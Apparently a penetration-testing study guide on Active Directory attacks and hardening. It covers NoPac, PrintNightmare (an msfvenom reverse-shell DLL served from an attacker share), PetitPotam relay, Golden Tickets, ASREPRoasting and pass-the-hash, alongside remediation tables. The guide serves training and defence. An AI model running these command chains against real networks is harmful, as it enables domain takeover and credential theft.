When connecting to a remote host via WinRM/PSRemoting, your TGT is not forwarded. The remote session has a TGS for that host only, so it cannot authenticate to a third host on your behalf. This is the "double hop" problem.
1.14.1 Workarounds
Both workarounds place credentials on the remote host. Workaround 2 spawns the session as the registered user regardless of who connects, so restrict access carefully.
# Workaround 1: PSCredential Object
$SecPassword = ConvertTo-SecureString '[password]' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('[DOMAIN]\[user]', $SecPassword)
# Then use -Credential $Cred with any remote command
# Workaround 2: Register PSSession Configuration
Register-PSSessionConfiguration -Name [session-config] -RunAsCredential [domain-short]\[user]
# Then connect to that session:
Enter-PSSession -ComputerName [target-host] -Credential $Cred -ConfigurationName [session-config]1.15 Bleeding Edge Vulnerabilities
High-impact AD vulnerabilities (2020-2022) that provide direct domain escalation. Verify the target's patch level before attempting.
1.15.1 NoPac / SamAccountName Spoofing
This chain combines CVE-2021-42278 (SamAccountName spoofing) with CVE-2021-42287 (KDC confusion during TGS request), allowing a standard domain user to impersonate a DC and obtain a TGT as that DC.
Requires ms-DS-MachineAccountQuota > 0 (default is 10, allowing users to add machine accounts).
# Scan for vulnerability
sudo python3 scanner.py [domain]/[user]:[password] -dc-ip [dc-ip] -dc-host [dc-hostname]
# Get a SYSTEM shell
sudo python3 noPac.py [domain]/[user]:[password] -dc-ip [dc-ip] -dc-host [dc-hostname] -shell --impersonate administrator -use-ldap
# DCSync via NoPac
sudo python3 noPac.py [domain]/[user]:[password] -dc-ip [dc-ip] -dc-host [dc-hostname] --impersonate administrator -use-ldap -dump -just-dc-user [DOMAIN]/administrator1.15.2 PrintNightmare (CVE-2021-34527 / CVE-2021-1675)
Remote code execution via the Windows Print Spooler service. Allows loading a malicious DLL from a remote share.
# Check if MS-RPRN is exposed
rpcdump.py @[dc-ip] | egrep 'MS-RPRN|MS-PAR'
# Generate DLL payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[attacker-ip] LPORT=8080 -f dll > backupscript.dll
# Host share and start handler
sudo smbserver.py -smb2support [share-name] /path/to/share
# Execute exploit
sudo python3 CVE-2021-1675.py [domain]/[user]:[password]@[dc-ip] '\\[attacker-ip]\[share-name]\backupscript.dll'1.15.3 PetitPotam (CVE-2021-36942)
PetitPotam coerces a Windows host to authenticate to an attacker via MS-EFSRPC. When chained with AD CS, the attacker can relay NTLM to CA web enrollment, obtain a certificate as the DC, and perform DCSync.
# Start NTLM relay targeting AD CS
sudo ntlmrelayx.py -debug -smb2support --target http://[ca-hostname].[domain]/certsrv/certfnsh.asp --adcs --template DomainController
# Trigger PetitPotam
python3 PetitPotam.py [attacker-ip] [dc-ip]
# Use captured base64 certificate to get TGT
python3 gettgtpkinit.py [domain]/[dc-hostname]\$ -pfx-base64 <base64_cert> dc01.ccache
# Set KRB5CCNAME and DCSync
export KRB5CCNAME=dc01.ccache
secretsdump.py -just-dc-user [DOMAIN]/administrator -k -no-pass [dc-hostname].[domain]
# Alternatively, get NT hash from TGT
python3 getnthash.py [domain]/[dc-hostname]\$ -key <AS-REP_key>
secretsdump.py -just-dc-user [DOMAIN]/administrator "[dc-hostname]$"@[dc-ip] -hashes :<hash>Methodology
-
python3 noPac.py DOMAIN/user:pass -dc-ip DC_IP -dc-host DC_HOSTNAME --impersonate administrator -dump -
python3 CVE-2021-34527.py DOMAIN/user:pass@TARGET '\\ATTACKER_IP\share\malicious.dll' -
python3 PetitPotam.py ATTACKER_IP DC_IP impacket-ntlmrelayx -t http://CA_IP/certsrv/certfnsh.asp --adcs --template DomainController
Remediation
| Vulnerability | Mitigations |
|---|---|
| NoPac (CVE-2021-42278/42287) | Apply KB5008380/KB5008602. Set ms-DS-MachineAccountQuota to 0. |
| PrintNightmare (CVE-2021-34527) | Apply patches. Disable Print Spooler on servers where printing is unnecessary (especially DCs). |
| PetitPotam (CVE-2021-36942) | Apply patches. Disable NTLM on DCs if possible. Enable Extended Protection for Authentication on AD CS. Require SSL for CA web enrollment. Enable SMB signing. |
1.16 Miscellaneous Misconfigurations
Common misconfigurations in Exchange, DNS, Group Policy, and service accounts that lead to lateral movement or privilege escalation.
1.16.1 Exchange-Related Group Membership
The Exchange Windows Permissions group has WriteDACL on the domain object. The Organization Management group can access Exchange mailboxes and potentially modify its own DACL. Compromising these groups can lead to domain-level privilege escalation.
1.16.2 PrivExchange
Exploits the Exchange PushSubscription feature to force the Exchange server to authenticate to the attacker via NTLM, which is then relayed to LDAP to grant the attacker WriteDACL on the domain. Requires: Exchange with PushSubscription enabled + NTLM relay to LDAP. Fixed in later Exchange CUs.
1.16.3 Printer Bug (MS-RPRN)
The Printer Bug forces a host to authenticate back to an attacker via the RpcRemoteFindFirstPrinterChangeNotificationEx function. Can be chained with NTLM relay attacks. The spooler service runs as SYSTEM, so the authentication is as the machine account.
# Check if spooler is running
Get-Service -Name Spooler
# Linux: check for MS-RPRN
rpcdump.py @[dc-ip] | grep MS-RPRN1.16.4 MS14-068 (Kerberos PAC Forging)
Allows forging a PAC (Privilege Attribute Certificate) in a Kerberos TGT to impersonate any user, including Domain Admin. Affects unpatched Windows Server 2003-2012 R2. Exploitable with PyKEK. Patch: KB3011780.
1.16.5 DNS Enumeration
Dump AD-integrated DNS records. The -r flag resolves entries marked as "unknown."
# Dump DNS records (like a zone transfer)
adidnsdump -u [domain-short]\\[user] ldap://[dc-ip]
# Resolve unknown records
adidnsdump -u [domain-short]\\[user] ldap://[dc-ip] -r
# View results
cat records.csv1.16.6 Password in Description Field
Admins sometimes store passwords in AD user description fields, readable by any authenticated domain user.
Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.description -ne $null}1.16.7 PASSWD_NOTREQD Flag
Accounts with this flag can have an empty password, bypassing the domain password policy.
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol1.16.8 Credentials in SYSVOL & Scripts
Administrators sometimes store passwords in scripts on SYSVOL (e.g., reset_local_admin_pass.vbs). SYSVOL is readable by all domain users.
1.16.9 Group Policy Preferences (GPP) Passwords
GPP allowed storing credentials in XML files (Groups.xml, Services.xml, Scheduledtasks.xml, etc.) in SYSVOL. The AES-256 key used to encrypt the cpassword field was published by Microsoft, making all GPP passwords trivially decryptable.

gpp-decrypt [cpassword-hash]
crackmapexec smb [dc-ip] -u [user] -p [password] -M gpp_autologin
crackmapexec smb [dc-ip] -u [user] -p [password] -M gpp_password1.16.10 ASREPRoasting
Targets accounts with "Do not require Kerberos preauthentication" (DONT_REQ_PREAUTH) enabled. These accounts return an AS-REP with a portion encrypted using the user's password, crackable offline.
# Enumerate from Windows (PowerView)
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
# Rubeus
.\Rubeus.exe asreproast /user:[asrep-user] /nowrap /format:hashcat
# Hashcat (mode 18200)
hashcat -m 18200 [asrep-file] /usr/share/wordlists/rockyou.txt
# From Linux -- GetNPUsers.py
GetNPUsers.py [domain]/ -dc-ip [dc-ip] -no-pass -usersfile [valid-users]
# Kerbrute auto-detection (finds ASREPRoastable accounts during user enum)
kerbrute userenum -d [domain] --dc [dc-ip] /opt/jsmith.txt1.16.11 GPO Abuse
If a user has WriteProperty or WriteDACL on a GPO linked to an OU, tools like SharpGPOAbuse can add the user as a local admin, create scheduled tasks, or add startup scripts on all machines in that OU.
# Find GPOs and permissions
Get-DomainGPO | select displayname
Get-GPO -All | select DisplayName
# Check user GPO rights
$sid = Convert-NameToSid "Domain Users"
Get-DomainGPO | Get-ObjectAcl | ? {$_.SecurityIdentifier -eq $sid}
# Convert GPO GUID to name
Get-GPO -Guid [gpo-guid]Methodology
-
Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.description -ne $null} -
Get-DomainUser -UACFilter PASSWD_NOTREQD | select samaccountname -
crackmapexec smb DC_IP -u user -p pass -M gpp_autologin crackmapexec smb DC_IP -u user -p pass -M gpp_password -
impacket-GetNPUsers DOMAIN/ -usersfile users.txt -format hashcat -outputfile asrep.txt -
Get-DomainComputer | select name,ms-mcs-admpwd,ms-mcs-admpwdexpirationtime -
adidnsdump -u DOMAIN\user -p pass ldap://DC_IP -r
Remediation (GPP Passwords)
Remediation (ASREPRoasting)
-
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
1.17 Domain Trusts
Domain and forest trusts define authentication boundaries between AD domains. Trust direction, transitivity, and SID filtering determine cross-domain attack paths.

1.17.1 Trust Types
| Type | Description |
|---|---|
| Parent-child | Automatically created between parent and child domains in same forest. Two-way transitive. |
| Cross-link | Shortcut trust between child domains to speed authentication. Two-way transitive. |
| External | Non-transitive trust between domains in separate forests. |
| Tree-root | Automatically created between forest root and new tree root. Two-way transitive. |
| Forest | Transitive trust between two forest root domains. |
| ESAE | Bastion forest for admin access (Red Forest architecture). |
Transitive trusts extend beyond two domains (A trusts B, B trusts C, so A trusts C). Non-transitive trusts exist only between the two specified domains. Direction is either one-way (incoming or outgoing) or bidirectional. In a one-way trust, the trusting domain allows users from the trusted domain to access its resources.
1.17.2 Trust Enumeration
# PowerShell AD Module
Get-ADTrust -Filter *
Import-Module activedirectory
Get-ADTrust -Filter *
# PowerView
Get-DomainTrust
Get-DomainTrustMapping
# Check users in child domain
Get-DomainUser -Domain [child-domain] | select SamAccountName
# netdom
netdom query /domain:[domain] trust
netdom query /domain:[domain] dc
netdom query /domain:[domain] workstation
# BloodHound: "Map Domain Trusts" pre-built queryMethodology
-
Get-ADTrust -Filter * Get-DomainTrust Get-DomainTrustMapping nltest /domain_trusts -
bloodhound-python -u user -p pass -d DOMAIN -ns DC_IP -c trusts
1.18 Child-to-Parent Trust Attacks (ExtraSids)
Compromise a child domain, then escalate to the forest root by forging a Golden Ticket with the Enterprise Admins SID injected via the ExtraSids field.
1.18.1 Overview
DA in the child domain forges a Golden Ticket with the parent's Enterprise Admins SID (RID 519) in the ExtraSids field, exploiting the SID History mechanism.
1.18.2 From Windows
# Get KRBTGT hash
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
# Get child domain SID
Get-DomainSID
# Get Enterprise Admins SID
Get-DomainGroup -Domain [domain] -Identity "Enterprise Admins" | select distinguishedname,objectsid
# Create Golden Ticket with Mimikatz
kerberos::golden /user:hacker /domain:[child-domain] /sid:[child-domain-sid] /krbtgt:[krbtgt-hash] /sids:[enterprise-admins-sid] /ptt
# Verify
klist
ls \\[dc-hostname].[domain]\C$
# Rubeus
.\Rubeus.exe golden /rc4:[krbtgt-hash] /domain:[child-domain] /sid:[child-domain-sid] /sids:[enterprise-admins-sid] /user:hacker /ptt
# DCSync parent domain
mimikatz # lsadump::dcsync /user:[DOMAIN]\[user] /domain:[domain]1.18.3 From Linux
raiseChild.py automates the full chain: finds child/parent DCs, obtains Enterprise Admins SID, gets child KRBTGT, forges the Golden Ticket with ExtraSids, authenticates to the parent, and retrieves parent admin credentials.
# Step 1: DCSync child domain for KRBTGT
secretsdump.py [child-domain]/[user]@[child-dc-ip] -just-dc-user LOGISTICS/krbtgt
# Step 2: Get child domain SID
lookupsid.py [child-domain]/[user]@[child-dc-ip] | grep "Domain SID"
# Step 3: Get Enterprise Admins SID from parent
lookupsid.py [child-domain]/[user]@[dc-ip] | grep "Enterprise Admins"
# Step 4: Forge Golden Ticket
ticketer.py -nthash [krbtgt-hash] -domain [child-domain] -domain-sid [child-domain-sid] -extra-sid [enterprise-admins-sid] hacker
# Step 5: Use ticket
export KRB5CCNAME=hacker.ccache
psexec.py [child-domain]/hacker@[dc-hostname].[domain] -k -no-pass -target-ip [dc-ip]
# Automated: raiseChild.py
raiseChild.py -target-exec [dc-ip] [child-domain]/[user]Methodology
-
impacket-secretsdump -just-dc-user krbtgt CHILD.DOMAIN/admin:pass@CHILD_DC_IP -
Get-DomainSID -Domain PARENT.DOMAIN -
impacket-ticketer -nthash KRBTGT_HASH -domain CHILD.DOMAIN -domain-sid CHILD_SID -extra-sid PARENT_SID-519 administrator -
export KRB5CCNAME=administrator.ccache impacket-psexec -k -no-pass PARENT_DC_HOSTNAME
1.18.4 Remediation
1.19 Cross-Forest Trust Abuse
Cross-forest trusts are non-transitive by default and enforce SID filtering, but attack paths still exist: Kerberoasting across the trust, shared group memberships, admin credential reuse, and misconfigured SID history.
1.19.1 Cross-Forest Kerberoasting
If a bidirectional or inbound forest trust exists, Kerberoasting can be performed across the trust boundary.
# From Windows (PowerView + Rubeus)
Get-DomainUser -SPN -Domain [foreign-domain] | select SamAccountName
Get-DomainUser -Domain [foreign-domain] -Identity mssqlsvc | select samaccountname,memberof
.\Rubeus.exe kerberoast /domain:[foreign-domain] /user:mssqlsvc /nowrap
# From Linux
GetUserSPNs.py -target-domain [foreign-domain] [domain]/[user]
GetUserSPNs.py -request -target-domain [foreign-domain] [domain]/[user]
# Crack with Hashcat mode 131001.19.2 Foreign Group Membership & Admin Password Reuse
Only Domain Local Groups allow members from outside the forest. Check if built-in Administrators in Forest B contains Domain Admins or Enterprise Admins from Forest A. Also check for password reuse between similarly-named admin accounts across forests (e.g., adm_bob.smith in Domain A and bsmith_admin in Domain B).
# Find foreign group members
Get-DomainForeignGroupMember -Domain [foreign-domain]
Convert-SidToName [administrator-sid]
# Test access across trust
Enter-PSSession -ComputerName [foreign-dc-hostname].[foreign-domain] -Credential [DOMAIN]\administrator1.19.3 Hunting Foreign Membership with BloodHound (Linux)
Collect BloodHound data from both domains and upload to the same database to map cross-forest attack paths.
# Configure DNS for each domain
# /etc/resolv.conf:
# domain [domain]
# nameserver [dc-ip]
# Collect from first domain
bloodhound-python -d [domain] -dc [dc-hostname] -c All -u [user] -p [password]
zip -r [output].zip *.json
# Change DNS, collect from second domain
# domain [foreign-domain]
# nameserver [foreign-dc-ip]
bloodhound-python -d [foreign-domain] -dc [foreign-dc-hostname].[foreign-domain] -c All -u [user]@[domain] -p [password]
# Upload both datasets to BloodHound GUI
# Use: Analysis > "Users with Foreign Domain Group Membership"1.19.4 SID History Abuse Across Forests
If SID Filtering is disabled on a forest trust, migrated users retain SID History from the source forest, including any administrative rights.
Methodology
-
Get-DomainTrust -Domain FOREIGN.LOCAL -
Get-DomainForeignGroupMember -Domain FOREIGN.LOCAL -
impacket-GetUserSPNs -target-domain FOREIGN.LOCAL DOMAIN/user:pass -request -
crackmapexec smb FOREIGN_DC -u admin -p pass -d FOREIGN.LOCAL
Remediation
1.20 Hardening Active Directory
Hardening controls mapped to the attack techniques in this section.
1.20.1 Document and Audit
Perform annual (or quarterly) audits of:
1.20.2 People
1.20.3 Protected Users Group
Members receive these protections:
-
Get-ADGroup -Identity "Protected Users" -Properties Name,Description,Members
1.20.4 Processes
1.20.5 Technology
-
Get-ADUser -Filter * -Properties Description | Where {$_.Description -ne $null}
1.20.6 Protections by TTP (MITRE ATT&CK Mapping)
| TTP | MITRE Tag | Key Defenses |
|---|---|---|
| External Recon | T1589 | Scrub document metadata, limit public information in job postings |
| Internal Recon | T1595 | Network monitoring, NIDS, firewall tuning, block ICMP responses |
| Poisoning | T1557 | SMB signing, encrypted traffic, disable LLMNR/NBT-NS |
| Password Spraying | T1110/003 | Strong password policies, account lockout, MFA, monitor Event IDs 4624/4648 |
| Credentialed Enum | TA0006 | Monitor unusual CLI usage, RDP patterns; network segmentation |
| LOTL | N/A | Baseline network traffic and user behavior; AppLocker policies |
| Kerberoasting | T1558/003 | Enforce AES encryption, strong passwords, gMSA, audit SPNs and group memberships |
Methodology
-
.\PingCastle.exe --healthcheck --server DOMAIN.LOCAL -
.\Group3r.exe -f group3r_report.html -
.\ADRecon.ps1 -OutputDir .\ADRecon_Report
1.21 Additional AD Auditing Techniques
AD auditing tools for generating risk assessments and remediation evidence.
1.21.1 Active Directory Explorer (Sysinternals)
AD Explorer is a Sysinternals GUI for browsing and editing AD objects, attributes, and permissions. Connect with any valid domain user credentials. Take snapshots for offline analysis during the reporting phase, and diff two snapshots to detect changes made between assessment phases.
1.21.2 PingCastle
PingCastle evaluates AD security posture using a CMMI-based risk assessment framework. The default healthcheck mode produces an HTML report covering misconfigurations, vulnerabilities, shares, trusts, delegation, and user/computer state. Scores are broken into four categories: Stale Objects, Privileged Accounts, Trusts, and Anomalies, each scored 0-100.
# Default healthcheck
PingCastle.exe --healthcheck
# Interactive TUI (scanner selection, carto, export)
PingCastle.exe --interactiveThe scanner mode runs targeted checks against workstations and servers. Useful scanner options include zerologon, spooler, laps_bitlocker, smb, and nullsession.
1.21.3 Group3r
Group3r finds vulnerabilities in AD Group Policy Objects. It must run from a domain-joined host as a domain user (not necessarily an administrator), or in the context of a domain user via runas /netonly.
# Output to file
group3r.exe -f findings.log
# Output to stdout
group3r.exe -sOutput is indented by level: no indent is the GPO, one indent is the policy setting, and a second indent is the finding with a reason. Group3r catches paths that other tools overlook; scripts with embedded credentials, dangerous GPO settings, and overly permissive delegations.
1.21.4 ADRecon
ADRecon extracts comprehensive AD data to CSV and optional Excel reports. It covers users, SPNs, groups, membership changes, OUs, GPOs, DNS zones, printers, computers, LAPS, and BitLocker recovery keys (privileged account required for LAPS and BitLocker). For GPO reporting, the host must have the GroupPolicy PowerShell module installed.
# Full extraction
.\ADRecon.ps1
# Generate Excel report from existing CSV output
.\ADRecon.ps1 -GenExcel C:\Tools\ADRecon-Report-20220328092458Excel must be installed on the host for automatic report generation. If unavailable, run the extraction first and use -GenExcel on another host to produce the report from the CSV folder.
2. Active Directory LDAP
2.1 Active Directory Overview
Active Directory (AD) is a directory service for Windows network environments. It is a distributed, hierarchical structure that provides centralized management of an organization's resources: users, computers, groups, network devices, file shares, group policies, servers, workstations, and trusts. AD provides both authentication (proving identity) and authorization (granting access) within a Windows domain environment.
Why AD matters to attackers: AD was first shipped with Windows Server 2000 and was designed to be backward-compatible. Many features are not "secure by default," and AD can be easily misconfigured. AD is essentially a large database accessible to all users within the domain, regardless of their privilege level. A basic AD user account with no added privileges can enumerate the majority of objects contained within AD.

2.1.1 Objects Enumerable by Any Domain User

| Object Category | Security Relevance |
|---|---|
| Domain Computers | Identify targets for lateral movement, find OS versions for exploit matching |
| Domain Users | Enumerate accounts for password spraying, identify service accounts |
| Domain Group Information | Find privileged group memberships, nested groups |
| Default Domain Policy | Understand password policy, lockout thresholds |
| Domain Functional Levels | Determine available features and attack surface |
| Password Policy | Inform password spraying parameters |
| Group Policy Objects (GPOs) | Find misconfigurations, deployed software, scripts |
| Kerberos Delegation | Identify unconstrained/constrained delegation for abuse |
| Domain Trusts | Map trust relationships for cross-domain attacks |
| Access Control Lists (ACLs) | Find abusable permissions (WriteDACL, GenericAll, etc.) |
2.1.2 Common AD Attacks Leveraging Misconfigurations
- Kerberoasting / ASREPRoasting
- NTLM Relaying
- Network traffic poisoning
- Password spraying
- Kerberos delegation abuse
- Domain trust abuse
- Credential theft
- Object control (ACL abuse)
2.1.3 Active Directory Structure
AD is arranged in a hierarchical tree structure:
- Forest: The top-level security boundary. All objects are under administrative control within a forest. A forest may contain multiple domains.
- Domain: A structure within the forest where contained objects (users, computers, groups) are accessible. Domains can contain child or sub-domains.
- Organizational Units (OUs): Containers within a domain used to organize objects. OUs may contain objects and sub-OUs, enabling assignment of different Group Policy settings.
- Objects: The most basic unit of data in AD (users, computers, groups, etc.).
Built-in OUs include Domain Controllers, Users, and Computers. Custom OUs can be created as needed. Understanding this structure is paramount for proper enumeration and uncovering flaws that may have persisted for years.
2.1.4 Why Enumerate AD
Enumeration is the most important skill for a penetration tester. When starting an assessment, a comprehensive inventory of the environment is critical. The information gathered during enumeration informs later attacks and post-exploitation. Key information to gather first:
| Information | Purpose |
|---|---|
| Domain functional level | Determines available AD features and potential attack surface |
| Domain password policy | Informs password spraying parameters (complexity, lockout threshold) |
| Full inventory of AD users | Identify targets for password attacks, service accounts |
| Full inventory of AD computers | Map attack surface, find servers (SQL, Exchange, etc.) |
| Full inventory of AD groups and memberships | Find privileged accounts, nested group memberships |
| Domain trust relationships | Identify cross-domain/cross-forest attack paths |
| Object ACLs | Find abusable permissions for privilege escalation |
| GPO information | Identify misconfigurations, deployed settings |
| Remote access rights | Find RDP/WinRM access for lateral movement |
Look for "quick wins" such as the current user or Domain Users group having RDP and/or local administrator access to hosts. Check if the current user is a member of any privileged groups, has special delegated rights, or has control over other domain objects. The enumeration process is iterative: as you compromise hosts and users, perform additional enumeration to discover new access.
Methodology
-
Get-ADDomain | select DomainMode -
Get-ADDefaultDomainPasswordPolicy -
Get-ADUser -Filter * -Properties * | select SamAccountName,Enabled,Description -
Get-ADComputer -Filter * -Properties OperatingSystem,DNSHostName | select Name,OperatingSystem,DNSHostName -
Get-ADGroup -Filter * | select Name,GroupScope,GroupCategory -
Get-ADTrust -Filter * -
whoami /priv whoami /groups
2.2 Rights and Privileges in AD
AD contains many groups that grant their members powerful rights and privileges. Many of these can be abused to escalate privileges within a domain and ultimately gain Domain Admin or SYSTEM privileges on a Domain Controller. Understanding these groups is critical for both offensive and defensive purposes.
2.2.1 Privileged AD Groups
| Group | Description | Attack Relevance |
|---|---|---|
| Default Administrators | Domain Admins and Enterprise Admins "super" groups | Full domain control |
| Server Operators | Can modify services, access SMB shares, backup files | Service abuse for code execution on DCs |
| Backup Operators | Can log onto DCs locally, make shadow copies of SAM/NTDS, read registry remotely, access DC file system via SMB | Effectively Domain Admins with the ability to dump NTDS.dit |
| Print Operators | Can logon to DCs locally and load drivers | Can trick Windows into loading a malicious driver |
| Hyper-V Administrators | Administer virtual machines including virtual DCs | If virtual DCs exist, these are effectively Domain Admins |
| Account Operators | Can modify non-protected accounts and groups | Can reset passwords, add users to groups |
| Remote Desktop Users | Not given useful permissions by default but often granted RDP access | Lateral movement via RDP |
| Remote Management Users | Can logon to DCs with PSRemoting | Remote code execution on DCs via WinRM |
| Group Policy Creator Owners | Can create new GPOs (need additional delegation to link them) | GPO abuse for code execution across OUs |
| Schema Admins | Can modify the AD schema structure | Can backdoor any to-be-created Group/GPO by adding a compromised account to the default object ACL |
| DNS Admins | Can load a DLL on a DC (cannot restart DNS server directly) | Load a malicious DLL and wait for reboot, or create a WPAD record (more reliable) |
2.2.2 User Rights Assignment
Users can have various rights assigned to their account based on group membership, privileges assigned via Group Policy, and other factors. The command whoami /priv lists all user rights assigned to the current user. Some rights are only available to administrative users and can only be listed/leveraged when running an elevated cmd or PowerShell session.
Non-elevated console (standard domain user rights):
PS C:\htb> whoami /priv
Privilege Name Description State
============================= ============================== ========
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set DisabledElevated console (Domain Admin or local admin with UAC bypass):
PS C:\htb> whoami /priv
Privilege Name Description State
========================================= ============================================== ========
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled
SeMachineAccountPrivilege Add workstations to domain Disabled
SeSecurityPrivilege Manage auditing and security log Disabled
SeTakeOwnershipPrivilege Take ownership of files or other objects Disabled
SeLoadDriverPrivilege Load and unload device drivers Disabled
SeBackupPrivilege Back up files and directories Disabled
SeRestorePrivilege Restore files and directories Disabled
SeDebugPrivilege Debug programs Enabled
SeEnableDelegationPrivilege Enable computer and user accounts for delegation Disabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
...Key privileges for exploitation:
| Privilege | Exploitation Potential |
|---|---|
SeDebugPrivilege | Inject into any process, dump LSASS memory |
SeImpersonatePrivilege | Token impersonation (Potato attacks) |
SeBackupPrivilege | Read any file on the system, including SAM/NTDS |
SeRestorePrivilege | Write any file on the system |
SeTakeOwnershipPrivilege | Take ownership of any object |
SeLoadDriverPrivilege | Load malicious kernel drivers |
SeEnableDelegationPrivilege | Configure delegation settings for privilege escalation |
Backup Operators have SeShutdownPrivilege, which means they can shut down a domain controller, causing a massive service interruption if they log onto a DC locally.
Methodology
-
Get-ADGroup -Filter "adminCount -eq 1" | select Name Get-ADGroupMember -Identity "Domain Admins" -Recursive | select Name,SamAccountName -
whoami /priv whoami /groups -
Get-ADGroup -Identity "Schema Admins" -Properties member | select -ExpandProperty member -
Get-ADGroupMember -Identity "Backup Operators" | select Name,SamAccountName -
Get-ADUser -Filter {adminCount -gt 0} -Properties admincount,useraccountcontrol | select Name,useraccountcontrol
2.3 Microsoft Remote Server Administration Tools (RSAT)
Remote Server Administration Tools (RSAT) have been part of Windows since Windows 2000. RSAT allows system administrators to remotely manage Windows Server roles and features from workstations running Professional or Enterprise editions of Windows. For penetration testers, RSAT provides powerful built-in enumeration capabilities through the PowerShell Active Directory module and GUI snap-ins.
2.3.1 RSAT Tools and Installation
RSAT includes tools for managing Active Directory, DNS, DHCP, Hyper-V, File Services, Group Policy, Remote Desktop Services, and more. Key components for AD enumeration:
- Active Directory Users and Computers Snap-in
- Active Directory Sites and Services Snap-in
- Active Directory Domains and Trusts Snap-in
- Active Directory Administrative Center Snap-in
- ADSI Edit Snap-in
- Active Directory Module for Windows PowerShell
- Group Policy Tools
Check installed RSAT tools:
Get-WindowsCapability -Name RSAT* -Online | Select-Object -Property Name, StateInstall all available RSAT tools:
Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -OnlineInstall a specific RSAT tool (AD DS):
Add-WindowsCapability -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0 -Online2.3.2 Domain Context for Enumeration
Many tools get credentials from the current user context rather than accepting credential parameters. When you have access to a password or hash but need to run tools in a different domain context, use one of the following methods:
runas /netonly: Built-in Windows command to spawn a process with alternate credentials. The /netonly flag means authentication only applies to network resources:
runas /netonly /user:htb.local\[user] powershellRubeus: Request a TGT using an NTLM hash (pass-the-hash to Kerberos):
rubeus.exe asktgt /user:[user] /domain:htb.local /dc:[target-ip] /rc4:ad11e823e1638def97afa7cb08156a94Mimikatz: Pass-the-hash to spawn a process with alternate credentials:
mimikatz.exe sekurlsa::pth /domain:htb.local /user:[user] /rc4:ad11e823e1638def97afa7cb08156a942.3.3 Enumeration with RSAT Snap-ins
If you compromise a domain-joined system, import the PowerShell AD module for command-line enumeration. For GUI-based enumeration from a non-domain-joined host, launch MMC with runas:
runas /netonly /user:Domain_Name\Domain_USER mmcAfter launching MMC, add AD snap-ins (Users and Computers, ADSI Edit, etc.). If you get an error about the domain not existing, right-click the snap-in, choose Change Domain, and type the target domain FQDN.
Methodology
-
Get-WindowsCapability -Name RSAT* -Online | Where-Object State -eq 'Installed' -
Import-Module ActiveDirectory -
runas /netonly /user:DOMAIN\username powershell -
runas /netonly /user:DOMAIN\username mmc
2.4 The Power of NT AUTHORITY\SYSTEM
The NT AUTHORITY\SYSTEM (LocalSystem) account is a built-in account used by the Service Control Manager with the highest level of access in the OS. It has more privileges than a local administrator account and is used to run most Windows services. Third-party services frequently run as SYSTEM by default.
2.4.1 SYSTEM Privileges
| Privilege | Default State |
|---|---|
| SE_AUDIT_NAME | enabled |
| SE_CHANGE_NOTIFY_NAME | enabled |
| SE_CREATE_GLOBAL_NAME | enabled |
| SE_CREATE_PAGEFILE_NAME | enabled |
| SE_CREATE_PERMANENT_NAME | enabled |
| SE_DEBUG_NAME | enabled |
| SE_IMPERSONATE_NAME | enabled |
| SE_INC_BASE_PRIORITY_NAME | enabled |
| SE_LOCK_MEMORY_NAME | enabled |
| SE_PROF_SINGLE_PROCESS_NAME | enabled |
| SE_TCB_NAME | enabled |
| SE_BACKUP_NAME | disabled |
| SE_RESTORE_NAME | disabled |
| SE_TAKE_OWNERSHIP_NAME | disabled |
| SE_LOAD_DRIVER_NAME | disabled |
| SE_ASSIGNPRIMARYTOKEN_NAME | disabled |
| SE_CREATE_TOKEN_NAME | disabled |
| SE_SECURITY_NAME | disabled |
| SE_SHUTDOWN_NAME | disabled |
| SE_SYSTEM_ENVIRONMENT_NAME | disabled |
2.4.2 SYSTEM and Domain Enumeration
Why SYSTEM matters for AD: On a domain-joined host, the SYSTEM account can enumerate Active Directory by impersonating the computer account, which is essentially a special user account. Having SYSTEM-level access within a domain environment is nearly equivalent to having a domain user account.
SYSTEM cannot perform cross-trust Kerberos attacks such as Kerberoasting across trust boundaries.
What you can do with SYSTEM on a domain-joined host:
Ways to gain SYSTEM access:
| Method | Description |
|---|---|
| Remote exploits | EternalBlue (MS17-010), BlueKeep (CVE-2019-0708) |
| Service abuse | Abusing a service running as SYSTEM (unquoted paths, weak permissions) |
| Potato attacks | RottenPotatoNG, JuicyPotato, PrintSpoofer (SeImpersonatePrivilege abuse) |
| Local privilege escalation | Windows Task Scheduler 0day, other LPE vulnerabilities |
| PsExec | PsExec.exe -s -i cmd.exe (requires local admin) |
Methodology
-
whoami whoami /priv -
Import-Module ActiveDirectory Get-ADDomain Get-ADUser -Filter * | Measure-Object -
# Check for SeImpersonatePrivilege whoami /priv | findstr "SeImpersonate" # Check for unquoted service paths wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows"
2.5 LDAP Overview
Lightweight Directory Access Protocol (LDAP) is an open-source, cross-platform protocol used for authentication against various directory services (such as AD). The latest LDAP specification is Version 3, published as RFC 4511. LDAP is the language that applications use to communicate with AD and other directory servers.
How LDAP relates to AD: The relationship between AD and LDAP can be compared to Apache and HTTP. Just as Apache is a web server that uses the HTTP protocol, Active Directory is a directory server that uses the LDAP protocol. While uncommon, some organizations use LDAP without AD (e.g., OpenLDAP on Linux).
2.5.1 LDAP Authentication
LDAP authenticates credentials against AD using a BIND operation to set the authentication state for an LDAP session. An LDAP session begins by connecting to a Directory System Agent (the Domain Controller).
Two types of LDAP authentication:
| Type | Mechanism | Security |
|---|---|---|
| Simple Authentication | Anonymous bind, unauthenticated bind, or username/password bind. A BIND request with credentials authenticates to the LDAP server. | Credentials sent in cleartext by default. Requires TLS/LDAPS for security. |
